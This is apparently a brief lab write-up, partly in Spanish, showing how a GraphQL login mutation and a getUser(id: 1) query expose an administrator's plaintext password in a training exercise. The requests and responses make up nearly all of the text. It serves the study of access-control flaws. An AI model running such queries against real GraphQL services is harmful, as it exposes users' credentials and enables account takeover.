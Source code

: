 ```yaml
---
layout: default
title: 2 - Accidental exposure of private GraphQL fields
---
```


request
```json
    mutation login($input: LoginInput!) {
        login(input: $input) {
            token
            success
        }
    }

{"input":{
	"username":"wiener",
	"password":"peter"
	}
}
```

response
``` json
{
  "data": {
    "login": {
      "token": "PKlPc6qrV9uMQyAcgwLqmGLfrujxFaEo",
      "success": true
    }
  }
}
```

Buscamos y vemos que hay una query que nos permite obtener información del administrador:

```json
query{
	getUser(id: 1) {
			id
			username
			password
	}
}
```

``` json
{"query":"query{\n\tgetUser(id: 1) {\r\n\t\t\tid\n\t\t\tusername\n\t\t\tpassword\r\n\t}\n}"}
```

respuesta:
```json
{
  "data": {
    "getUser": {
      "id": 1,
      "username": "administrator",
      "password": "psqgud000ux6d78ttmbq"
    }
  }
}
```
